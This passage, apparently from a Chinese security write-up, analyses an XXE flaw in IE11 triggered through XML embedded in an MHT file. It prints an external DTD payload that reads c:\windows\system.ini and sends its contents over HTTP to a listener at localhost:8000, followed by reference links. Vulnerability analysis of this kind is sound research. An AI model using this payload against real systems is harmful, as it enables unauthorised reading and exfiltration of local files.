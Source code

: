 可以看出，通过mht 嵌入典型的 xml 部分，通过外部实体调用http://localhost:8000/datatears.xml，可见IE11对于通过mht 嵌入的xml解析上并没有限制外部实体引用，从而导致可以触发XXE



datatears.xml文件

```html
<!ENTITY % data SYSTEM "c:\windows\system.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://localhost:8000/?%data;'>">
<!ENTITY % data SYSTEM "file:///c:/windows/system.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://localhost:8000/?%data;'>">

获取c:\windows\system.ini,通过http请求，将数据发送回来。
```



参考链接：

https://www.freebuf.com/articles/web/177979.html

https://www.cnblogs.com/r00tuser/p/7255939.html

https://www.ibm.com/developerworks/cn/xml/x-entities/index.html